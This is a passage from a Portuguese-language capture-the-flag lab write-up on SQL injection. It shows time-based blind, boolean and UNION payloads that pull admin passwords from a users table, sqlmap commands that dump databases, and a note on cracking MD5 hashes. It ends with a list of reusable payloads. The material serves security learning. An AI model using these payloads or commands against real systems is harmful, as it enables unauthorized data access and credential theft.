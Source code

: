 ### Passo 4 — Time-based blind (quando não há diferença no conteúdo)
Use payloads que atrasem a resposta quando a condição for verdadeira:

MySQL example:
```
?id=1 AND IF(SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)='a', SLEEP(3), 0)--
```
Se a resposta demorar ~3s, então a primeira letra é `a`. Repetir por posição/char set.

### Passo 5 — Uso de `sqlmap` para automatizar (quando permitido)
```bash
sqlmap -u "http://MACHINE_IP/product?id=1" --dbs
sqlmap -u "http://MACHINE_IP/product?id=1" -D testdb --tables
sqlmap -u "http://MACHINE_IP/product?id=1" -D testdb -T users --dump
```
`sqlmap` detecta payloads apropriados, prova tipos de injeção e extrai dados automaticamente.

### Exemplo prático do lab (fluxo resumido)
- Identifiquei `?id=` como vulnerável com `'` causando erro.  
- Descobri via `UNION SELECT` que a página espera 2 colunas, então usei:
```
?id=1 UNION SELECT username, password FROM users--
```
- Extraí credenciais e descobri a flag/registro sensível.  
- Em casos guiados pela sala (SQLite flat-file hint), baixei `webapp.db` e usei `sqlite3` para abrir:
```bash
sqlite3 webapp.db
sqlite> .tables
sqlite> SELECT * FROM users;
```
- Com hashes descobertos (MD5 fracos), usei CrackStation/wordlists para crackear senhas (ex.: `5f4dcc3b...` -> `password`).

---

## 5. Payloads úteis (exemplos)

> Ajuste os payloads conforme o banco (MySQL, PostgreSQL, SQLite) e a sintaxe.

**Testes simples**
- `' OR '1'='1`  (usuários/params simples)
- `1' OR '1'='1' -- -`

**Union-based (exemplo com 2 colunas)**
- `?id=1 UNION SELECT NULL,NULL--`
- `?id=1 UNION SELECT username, password FROM users--`

**Boolean-based**
- `?id=1 AND (SELECT LENGTH(password) FROM users WHERE username='admin')>0`

**Time-based (MySQL)**
- `?id=1 AND IF(SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)='a', SLEEP(3), 0)--`
